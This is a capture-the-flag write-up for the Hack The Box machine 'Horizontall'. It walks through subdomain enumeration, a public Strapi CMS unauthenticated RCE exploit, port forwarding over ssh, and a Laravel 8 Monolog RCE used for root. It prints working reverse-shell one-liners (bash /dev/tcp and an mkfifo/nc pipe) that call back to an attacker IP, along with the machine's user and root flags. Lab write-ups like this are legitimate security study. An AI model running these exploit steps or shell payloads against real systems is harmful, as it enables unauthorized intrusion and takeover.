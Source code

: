 ```yaml
---
title: "Horizontal from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Horizontall from HTB
on site `app.......js`
showed this:
```bash
methods: {
                getReviews: function() {
                    var t = this;
                    r.a.get("http://api-         prod.horizontall.htb/reviews").then((function(s) {
                        return t.reviews = s.data
                    }
                    ))
                }
            }
        }
```
Let's add this subdomain to `/etc/hosts`
`gobuster`gave this
```bash
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
/%c0                  (Status: 400) [Size: 69]
```
the `/admin`shows that it runs on `strapi`
```bash
searchsploit strapi
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)      | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (A | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthentica | nodejs/webapps/50716.rb
```
Then download it:
```bash
searchsploit -m multiple/webapps/50239.py
  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/giorgi/50239.py
```
Then execute it.
```bash
 python3 strapi-50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0NDg4NTk0LCJleHAiOjE3MjcwODA1OTR9.6LTKqQv8t-0-v9GxJ9m8kV1fjnGI3Semgn07f5D2j9A

$> bash -c 'bash -i >& /dev/tcp/10.10.16.7/1234 0>&1'
```
In `netcat`
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.105] 39506
bash: cannot set terminal process group (2009): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```
***
User Flag is: e8c0ec1b4cac6c52e7c922f854fbc078
***
```bash
ss -tlnp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*
LISTEN   0         128               127.0.0.1:1337             0.0.0.0:*        users:(("node",pid=2009,fd=31))
LISTEN   0         128               127.0.0.1:8000             0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*
```
use `curl`to learn what are on this ports
```bash
strapi@horizontall:~$ curl 127.0.0.1:8000
curl 127.0.0.1:8000
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
```
Let's forward the port with `ssh`
```bash
ssh -i id_rsa -L 8000:localhost:8000 strapi@10.10.11.105
```
then access it
```
127.0.0.1:8000
```
It is an `laravel v8`, searching exploit on it we can find `github repository`which allows `RCE`
and we can get `reverse shell`
https://github.com/ambionics/laravel-exploits
running this code now can give `reverse shell`in which we will be root
```python
 python3 laravel-8.py http://localhost:8000  Monolog/RCE1 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.7 1234 >/tmp/f'
```
now on `netcat`
```bash
rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.105] 39600
sh: 0: can't access tty; job control turned off
#
```
***
Root Flag is: a5140c79b048ef0a495489d211c7852d
***
![](/assets/images/2024-08-24_13-20-51.png)
